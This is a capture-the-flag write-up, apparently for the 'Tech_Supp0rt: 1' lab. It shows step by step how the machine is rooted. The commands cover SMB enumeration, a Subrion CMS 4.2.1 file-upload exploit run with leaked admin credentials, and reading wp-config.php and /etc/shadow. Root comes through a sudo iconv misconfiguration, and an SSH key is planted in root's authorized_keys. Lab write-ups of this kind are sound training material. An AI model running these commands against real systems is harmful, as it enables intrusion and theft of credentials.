 # Tech_Supp0rt: 1 

## Hack into the machine and investigate the target.

I started of this challenge by running an nmap scan and also ran a gobuster scan.
```
nmap -sV -sC <IP_Machine>
```
```
gobuster dir -w /usr/share/wordlists/dirb/big.txt -u <IP_Machine>
```
The nmap scan came back and I quickly noticed that there was an smb server present.

Host Scripts Results:

account_used: guest

authentication_level: user

After many failed attempts of trying to make the credentials work with 
the smbclient command.. I searched online and found a command to connect.

```
smbclient //<Machine_IP>/websvr
```

Here I was into the smb server client
From here I used an 'ls' command and saw that there was an 'enter.txt' file.
I used a 'get' command to download the file onto my host machine.
After I opened the file on my machine it read:
______________________________________________________________________
```
Goals
=====
1)Make fake popup and host it online on Digital Ocean server

2)Fix subrion site, /subrion doesn't work, edit from panel

3)Edit wordpress website

IMP
===
Subrion creds

|->admin:7sKvntXdPEJaxazce9PXi24zaFrLiKWCk [cooked with magical formula]

Wordpress creds

|->
```
_______________________________________________________________________

Reading this file I saw that the 'subrion/' looked like a directory on the webpage. 
There also seemed to be a username and password. (If you put the password into
cyberchef and cook it with the magic decryption.. it comes out to 'Scam2021')

I tried to put the subrion/ onto the end of browser search and came 
up with a directory along with a /robots.txt after it.

http://<IP_Machine>/subrion/robots.txt
resulted with these directories >> 
______________________________________________________________________
User-agent: *

Disallow: /backup/

Disallow: /cron/?

Disallow: /front/

Disallow: /install/

Disallow: /panel/

Disallow: /tmp/

Disallow: /updates/
_________________________________________________________________________

I tried to input all of these and the one that looked most interesting
was the '/panel/' page because I already had a username and a password.

After logging in it appeared I could be able to run an exploit and get a shell on this machine.
There was a version that I could see as Subrion CMS
v 4.2.1

I found an exploit on 'exploit-db' which seemed to match the same version called 
Subrion CMS 4.2.1 - Arbitrary File Upload 

When trying to run the exploit I got an error tha looked like this :

```
Traceback (most recent call last):
  File "49876.py", line 19, in <module>
    from bs4 import BeautifulSoup
ModuleNotFoundError: No module named 'bs4'
```
I then installed BeauttifulSoup using https://pypi.org/project/beautifulsoup4/

```
pip2 install beautifulsoup4
```

After installing.. I ran the command again with the username (-l) and password (-p)
like so--->

```
python3 49876.py -u http://10.10.198.19/subrion/panel/ -l admin -p Scam2021
``` 
AND I GOT A SHELL ^-^
Here I searched for /etc/passwd file 

```
cat /etc/passwd
```
I noticed that there was a directory to 'scamsite' and also knew that the site was powered
by wordpress so I could be able to run a cat command using this in the shell.

```
cat /var/www/html/wordpress/wp-config.php
```

Here I got access to the file and was able to find a password 

```
/** MySQL database password */
define( 'DB_PASSWORD', 'ImAScammerLOL!123!' );
```

I then ran ssh to connect to the website using the password I found
in the database.

```
ssh scamsite@<IP_Machine>
```
And then I was connected to 'scamsite@TechSupport'
I then checked for permissions. 

```
sudo -l
```

```
(ALL) NOPASSWD: /usr/bin/iconv
```

Once I saw that we had privilege here.. I went to GTFO bins and 
searched for permissions. I searched iconv and used -->

```
LFILE=file_to_read   
./iconv -f 8859_1 -t 8859_1 "$LFILE"
```

Then I imput the path I wanted to use

```
LFILE=/etc/shadow   
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

This gave me the shadow file. I then ran another command
This time using -->

```
LFILE=/root/root.txt
sudo /usr/bin/iconv -f 8859_1 -t 8859_1 "$LFILE"
```

And I got the root.txt flag

This wasn't the end as I wanted to get to the root user.
On my machine I generated a public and private key.

```
ssh-keygen
```

I copied the public key and put it onto the attacking machine

```
echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDXAr00dvELBb43yeqP1kKlKcmJfiF5Kf4FXmHUwr17wwEpl
yP4jvjCS1uyW4Wrz+Bu1htWrW5NoiBwbR6BZqzXjlJKDVH3vKI2DvoQRLyvsdG+h7CmtszATI/zkLIL9kSfoVlXtWpNaN/9Ay8
/rQISsgsMdERPq/o6aatQF0KEtBPOW6+/TuwY9iFujfK56veQkDiolVN+BXSbz//HIzFyC1Tf8dnjBXVDEfHqicuW
50uuJq0Haj6ZETCWk0r/BOUCD28R2AFbqRd2z1RTCThSMzpoBKHeDTLqpc1z4ebpVlk0DL2DzMzCLKAa
kWe/CVAn7jzHfiVmQ5SwhF7NVSCV lotus@<<Machine_IP>" | sudo iconv -f 8859_1 -t 8859_1 -o /root/.ssh/authorized_keys  
```

I then used the key pair to log onto the root user.

```
ssh root@<attacking_ip> -i tech_support
```

And finally I was root ^_^.
